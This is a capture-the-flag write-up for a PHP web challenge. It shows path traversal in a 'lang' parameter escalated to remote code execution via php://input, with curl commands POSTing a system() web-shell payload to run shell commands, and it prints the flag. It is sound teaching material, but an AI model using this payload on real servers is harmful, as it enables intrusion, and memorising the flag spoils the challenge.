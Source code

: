 # Streamlined Democracy - web

## Challenge

Before you begin your voting, review our online guide and reach out if you have any questions. Your input is very important to us!

## Solve

Viewing the webpage provided we can see there is an option to toggle language in the top right corner:

s1

When we select French, a `lang` parameter appears in the URL and is set to `fr.php`. It turns out path traversal is possible using this parameter:

streamlined

After much exploring of the filesystem, it appears that we aren't going to be able to find the flag by checking usual locations with generic flag names like `flag.txt`, `flag.php`, `flag` etc. Doing some research led to [this article](https://medium.com/@zoningxtr/from-lfi-to-rce-via-php-input-the-complete-beginner-friendly-guide-e38e79924521) - if getting RCE is possible, we would be able to more effectively explore the filesystem. The use of the PHP I/O stream `input://` strongly aligned with the challenge name and description and we could soon get a solve:

- First confirm we can execute commands with:
  
```bash
curl -X POST -d "<?php system($_GET['cmd']); ?>" \
"http://3.105.27.130:8001/?lang=php://input&cmd=whoami"
```

- `php://input` directs the application to read the raw body of a POST request as a stream. When combined with `include()` in the source - 
    ```php
    $lang = include($language);
    ```
    POST data can be executed as code.
- We send the POST request with the data as PHP code: `"<?php system($_GET['cmd']); ?>"`
  - php `system()` runs local shell commands on the web server
- Then set the `cmd` parameter to whatever we like in the query string

sd.png

- Then find the location of the flag with:

```bash
curl -X POST -d '<?php system($_GET["cmd"]); ?>' \
"http://3.105.27.130:8001/?lang=php://input&cmd=ls+/"
```

sd2

- Then read the flag directly in browser with `lang=/MXypSYzPptJ3_flag.txt`:

sd3

`secedu{pHp_wr@Pp3rs_w1LL_n3veR_d!e}`
